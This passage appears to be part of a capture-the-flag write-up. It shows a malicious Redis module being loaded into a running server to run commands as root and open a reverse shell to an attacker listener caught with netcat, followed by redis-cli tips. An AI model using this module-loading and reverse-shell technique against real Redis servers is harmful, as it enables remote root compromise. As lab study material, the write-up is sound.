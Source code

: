 Using the above we're building a redis module writen in C from an amd64 machine. And then loading it from the running redis instance. That module then lets us call system commands, or run a reverse shell. 
```bash
127.0.0.1:6379> module load /dev/shm/module.so
OK
127.0.0.1:6379> INFO modules
# Modules
module:name=system,ver=1,api=1,filters=0,usedby=[],using=[],options=[]
127.0.0.1:6379> auth F2WHqJUz2WEz=Gqq
OK
127.0.0.1:6379> module load /dev/shm/module.so
OK
127.0.0.1:6379> system.exec "id"
"uid=0(root) gid=0(root) groups=0(root)\n"
127.0.0.1:6379> system.rev 10.10.14.139 4242
```

Catching the shell
```bash
rlwrap nc -lvnp 4242
listening on [any] 4242 ...
connect to [10.10.14.139] from (UNKNOWN) [10.10.11.172] 33752
id
uid=0(root) gid=0(root) groups=0(root)
pwd
/var/lib/redis
id
uid=0(root) gid=0(root) groups=0(root)
```

Notes on how to steer things around in redis-cli
```bash
redis-cli -h localhost -p 6379
redis-cli
INFO                 # if NOAUTH Authentication required, then auth is needed
AUTH password        # redis can be configured to have only a password
AUTH user password   # or both a username and a password
INFO keyspace        # equivalent to a show databases
SELECT 1             # select database 1
KEYS *               # List all keys in database 1

get key:1
set key:1 newvalue
del key:1

MODULE LOAD /path/to/mymodule.so  # load a module at runtime
```

